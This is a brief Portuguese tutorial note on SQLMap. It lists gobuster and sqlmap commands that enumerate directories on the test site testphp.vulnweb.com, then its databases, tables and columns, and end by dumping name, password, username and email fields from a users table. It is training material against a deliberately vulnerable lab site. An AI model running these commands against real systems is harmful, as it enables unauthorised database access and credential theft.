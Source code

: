 # SQLMap

Site para testes http://testphp.vulnweb.com

$gobuster -u http://testphp.vulnweb.com -x php -w /usr/share/dirb/wordlists/big.txt dir

$sqlmap --help

$sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs

$sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables

$sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns

$sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump

## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction

